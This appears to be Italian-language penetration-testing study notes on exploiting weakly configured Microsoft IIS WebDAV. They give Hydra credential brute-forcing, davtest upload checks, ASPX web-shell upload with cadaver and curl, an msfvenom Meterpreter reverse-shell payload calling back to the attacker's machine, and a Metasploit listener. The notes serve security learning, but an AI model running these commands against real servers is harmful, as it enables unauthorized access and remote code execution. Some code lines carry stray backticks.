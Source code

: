 # Microsoft IIS WebDAV – Introduzione e Exploit
**WebDAV (Web Distributed Authoring and Versioning)** è un protocollo composto da un set di estensioni HTTP che consentono agli utenti di modificare e gestire in modo collaborativo i file su **Microsoft IIS**. <br>
Microsoft IIS è un server web proprietario sviluppato da Microsoft, in grado di ospitare applicazioni web e siti web, in modo simile ad altri server come Apache o Nginx <br>
WebDAV espone in genere la stessa porta del sito (80/443) e supporta metodi aggiuntivi come `PROPFIND`, `MKCOL`, `PUT`. <br>

Una configurazione debole (per‑mancanza di ACL o controllo sul metodo **PUT**) consente a un attaccante di **caricare ed eseguire file arbitrari**, ottenendo RCE.

---

## Brute‑force credenziali (opzionale)

Una volta confermata la presenza del servizio e un mancato controllo del metodo PUT durante laprecedente fase di Scansione ed Enumerazione, possiamo tentare di scoprire le credenziali di accesso usando Hydra: <br>
```bash
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/common_passwords.txt -s 80 -f -u <IP> http-get /webdav
```

* `-L` / `-P` puntano ai file utenti / password. <br>
* `-s 80` specifica la porta. <br>
* `-f` interrompe alla prima coppia valida. <br>
* `-u` mantiene la stessa connessione. <br>

Se il server usa HTTPS, sostituisci `http-get` con `https-get` e porta 443: <br>
Se invece vuoi effettuare un login standard basta mettere `/` al posto di `/webdav` per autenticarti
> ovviamente puoi mettere qualsiasi altra directory che richiede autenticazione dopo `/`

---

## Verifica upload con credenziali

dopo aver scoperto le credenziali di accesso, analizziamoi il comportamento usando davtest:
```bash
davtest -auth <user>:<pass> -url http://<IP>/webdav`
```

Se `PUT` va a buon fine, verrà indicato “SUCCESS” per l’estensione caricata.

---

## 4 – Upload di una Web‑Shell con **cadaver**
Se il metodo PUT funziona, possiamo caricare una webshell usando `cadaver`
```bash
cadaver http://<IP>/webdav` # client WebDAV interattivo.
put C:\\webshell\\cmd.aspx` # carica la web‑shell ASPX.
```

Tutte le web shells disponibili su kali sono visualizzabili al path 
```bash
/usr/share/webshells
```

Dopo aver caricato una webshell, ricaricando la pagina del browser dov’era aperta la pagina di WebDAV, possiamo visualizzare la shell caricata quindi, cliccando su di essa per eseguirla, potremmo avere una schermata con la possibilità di inserire dei comandi

---

## 5 – Upload via curl e put
possiamo anche caricare la shell usando curl:
```bash
curl -T shell.aspx http://<user>:<pass>@<IP>/webdav/shell.aspx` # carica shell ASPX
```

e tramite il metodo put:
```bash
put </usr/share/webshells/webshell.aspx>
```

---

## 6 – Generazione Payload con **msfvenom**
é possibile generare una shell usando msfvenom: 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KaliIP> LPORT=<Port> -f aspx > shell.aspx
```

Carica `shell.aspx` via `cadaver` o `curl`; una volta richiamato, avrai la sessione Meterpreter.

---

## 7 – Listener Metasploit
Per poter ricevere una connessione reverse shell, si usa il `multi/handler` di Metasploit
```bash
use multi/handler # modulo listener generico
set payload windows/meterpreter/reverse_tcp # definisce il payload
set LHOST <KaliIP> # IP della macchina Kali
set LPORT <Port> # porta configurata nel payload
run # avvia il listener in attesa della connessione
```

e successivamente eseguiamo la shell caricata sul target con `cadaver` o `curl`

Queso processo é totalmente automatizzabile usando il modulo
```bash
exploit/windows/iis/iis_webdav_upload_asp
```

---
